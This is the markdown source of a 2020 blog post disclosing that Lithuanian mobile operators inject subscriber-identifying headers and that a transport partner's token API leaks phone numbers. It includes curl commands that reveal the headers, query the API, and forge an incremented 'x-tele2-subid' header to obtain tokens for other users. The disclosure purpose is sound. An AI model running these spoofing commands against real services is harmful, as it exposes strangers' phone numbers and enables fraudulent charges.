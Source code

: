 ```yaml
---
author:     Anonymous (Discovery) & Jaroslav Lobačevski (The article)
profileimage: anonymous.jpg
layout:     post
title:      "Privacy leaks in mobile internet era"
date:       2020-02-27 12:00:00
categories: HackAndTell MobileInternet
cover:      
permalink:  /en/blog/mobile-data-leak
---
```

> tl;dr: Ignorance of security issues by mobile operator partners leaks your phone number to malicious websites. Misconfigurations of mobile operators allow tracking you worldwide.  
Try it yourself - [Proof of Concept](#proof-of-concept).

It all starts from curiosity... Have you ever seen a mobile app asking you to turn off WIFI and switch to mobile internet in order to use it?  
There are at least few of them in Lithuania that offer login-less service if you are connected to the mobile internet:

* [m.Ticket](https://play.google.com/store/apps/details?id=lt.sisp.itero.ticket.client&hl=en) - 
An app that allows you to buy public bus tickets using your phone.
* [m.Parking](https://play.google.com/store/apps/details?id=lt.sisp.itero.parking.client&hl=en) - 
An app for paying for city parking using your phone. The parking fee is added to your phone bill.
* [Mobile wallet MoQ](https://play.google.com/store/apps/details?id=lt.momo.app&hl=en) - 
An app for online payments, paying in-store and transferring money.

### How does it work?

It may sound crazy, but the mobile operator injects your identity into the outgoing HTTP request. Officially it is called HTTP Header Enrichment. When a third-party web server receives your request it already contains what is the needed to identify a mobile user in a special HTTP header.

Let's check if that is true. First of all we need a server that would reflect back all HTTP headers it received from your browser. It is easy to write one by your own, but since we are lazy we'll use an already [existing one](http://postman-echo.com).

Connect a computer to your mobile device hotspot. Start a shell (command line) and run [curl](https://curl.haxx.se/) with the following arguments:
```
curl http://postman-echo.com/get
```
It returns the following response if you are not Tele2 user (showing just the important part):
```json
"headers": {
  "x-forwarded-proto": "https",
  "host": "postman-echo.com",
  "accept": "*/*",
  "user-agent": "curl/7.55.1",
  "x-forwarded-port": "80"
}
```
Nothing is suspicious here. This is because if configured correctly mobile operators inject headers only in a web request to white-listed partners. But not in Tele2 Lithuania case! It injects `"x-tele2-subid: 10.■■■.■■■.■■■` to **any unencrypted HTTP request**!

You may not see where the issue is... Yet it provides a [super cookie](https://en.wikipedia.org/wiki/HTTP_cookie#Other_uses) for any web site in the world. No matter if you switch the browser, clean cookies, use incognito mode - it uniquely identifies you as the same user. While you may share the same header with other Tele2 users nearby (something to be proved) it still gives a lot of information for a web sites to track you.

Let's switch our mobile provider and spoof the requested web site:
```
curl http://postman-echo.com/get --header "Host: mtis2.m-transportas.lt"
```
If correctly configured on mobile provider side the headers should not be injected because IP address of the request (the receiver is postman-echo.com) and the host name (mtis2.m-transportas.lt) doesn't match. However the following headers are injected in Bite case:
```
"bite-account-country": "LT",
"bite-account-id": "152■■■■■",
"bite-account-language": "LT",
"bite-account-type": "PREPAID",
"x-forwarded-server": "wap.bite.lt",
```
In Telia case:
```
"x-et-user-identity": "S9zdh■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■KUn3M"
```
### Things get worse. Partners come into play.
The host name we used above belongs to one of the white-listed partners. The company has created a web service that returns back a phone number among other things when a request from a mobile internet user is received. Let's try it:
```
curl --request POST http://mtis2.m-transportas.lt/api/token "Content-Type: application/x-www-form-urlencoded" -d "client_id=mticket&CountryCode=310&grant_type=mobileProvider"
```
The response:
```
{
  "userName": "3706■■■■■■■",
  "userType": 3,
  "client_id": "mticket",
  "access_token": "ey■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■Ck",
  "expires_in": 900,
  "refresh_token": "9c■■■■■■■■■■■■■■■■■■■■■■8d",
  "refresh_token_expires_in": 604800,
  "ticketInspectorGroupId": 0,
  "ticketInspectorLeader": false,
  "client_owner_code": null,
  "notifications": [
  ]
}
```
The service is public and the first line leaks your phone number. How could it be exploited?  
A malicious web page may run a javascript that calls mtis2.m-transportas.lt on your behalf. But if your provider is Tele2 it is even worse: `x-tele2-subid` gets injected into all unencrypted web site requests. So a malicious site may call mtis2.m-transportas.lt with the leaked `x-tele2-subid` and retrieve the phone number on the server side. This way it is impossible to detect the abuse from the client!
### Proof of concept:
Works with any Lithuanian mobile provider (*Update 2020-03-04: Tele2 is working on the fix and has disabled phone number resolution service for mtis2.m-transportas.lt*). Turn off WIFI and click on the link in your mobile device.
[http://www.devsecurity.eu/mobile-data-leak/](http://www.devsecurity.eu/mobile-data-leak/)

![Screenshot](mobile-data-leak-poc.png)

### Does the injected header prove anything?
So these white-listed partners make security sensitive decisions based on a presence of a header. Let's try spoofing the identity. This time switch to WIFI and run the following command:
```
curl --request POST http://mtis2.m-transportas.lt/api/token "Content-Type: application/x-www-form-urlencoded" -d "client_id=mticket&CountryCode=310&grant_type=mobileProvider" --header "x-tele2-subid: {your id from previous runs incremented by one}"
```
You will receive the token id for a user with completely different phone number! The service got fooled even though we connected not from a mobile network. While possibly there is no threat in someone spoofing your identity to buy you tickets, you wouldn't like to get a bill in the end of a month for a parking or mobile payments (up to 50 Eur?) you didn't do. The presence of the special headers cannot be used to prove your identity.

### Conclusions
The HTTP Header Enrichment is an ancient technique from the dark ages of internet when most of the traffic was unencrypted (related risks were even published in [2010 by Collin Mulliner](http://www.mulliner.org/security/feed/random_tales_mobile_hacker.pdf)). It should be abandoned as insecure and violating users' privacy. Meanwhile you have the options:
* Do not use mobile internet.
* If using mobile internet from a laptop browser, install HTTPS Everywhere extension.
* Always use VPN.
